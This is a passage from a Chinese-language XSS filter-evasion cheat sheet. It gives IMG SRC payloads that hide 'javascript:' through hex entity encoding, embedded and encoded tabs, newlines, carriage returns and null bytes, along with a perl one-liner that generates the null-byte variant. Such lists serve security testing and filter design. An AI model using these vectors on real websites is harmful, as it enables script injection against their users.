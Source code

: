 ```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29> 
```

* * *

## 内嵌 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');"> 
```

* * *

## 内嵌被编码的 TAB

用来分开 xss 攻击代码

```
<IMG SRC="jav&#x09;ascript:alert('XSS');"> 
```

* * *

## 内嵌换行符去分开 xss 代码

一些网站声称 09-13 编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有 09(tab), 10 (换行) 和 13 (回车)可以使用。查看 ascii 表为更详细的信息。下面四个 xss 例子展示了这个向量。

```
<IMG SRC="jav&#x0A;ascript:alert('XSS');"> 
```

* * *

## 编码回车符去分开 xss 代码

注意：上面我编写的三个 xss 字符串比必须的字符串更长，原因是 0 可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符。正确的应该是一到七个字符。

```
<IMG SRC="jav&#x0D;ascript:alert('XSS');"> 
```

* * *

## 没有分割的 javascript 指令

null 字符也可以作为一个 xss 向量，但是不像上边那样。你需要直接注入它们利用一些工具例如 Burp Proxy，或是使用 %00 在你的 url 字符串里。或者如果你想写你自己的注入工具你可以使用 vim（^V^@ 会生成 null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera 的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符 173（软连字符）。但是 null 字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器用过变动像这个例子中的。

```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out 
```
